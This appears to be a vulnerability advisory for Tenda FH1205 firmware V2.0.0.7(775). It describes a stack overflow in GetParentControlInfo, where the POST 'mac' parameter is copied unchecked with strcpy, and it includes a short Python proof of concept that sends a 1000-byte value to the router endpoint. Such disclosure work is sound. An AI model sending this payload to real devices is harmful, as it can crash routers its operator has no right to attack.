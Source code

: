 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `GetParentControlInfo` function. The `src` variable receives the `mac` parameter from a POST request and is later assigned `s` to by function `strcpy`. However, since the user can control the input of  `mac`, it can cause a stack overflow. The user-provided  `mac` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240319223723575](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223723575.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/GetParentControlInfo"
payload = b"a"*1000

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320105515089](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320105515089.png)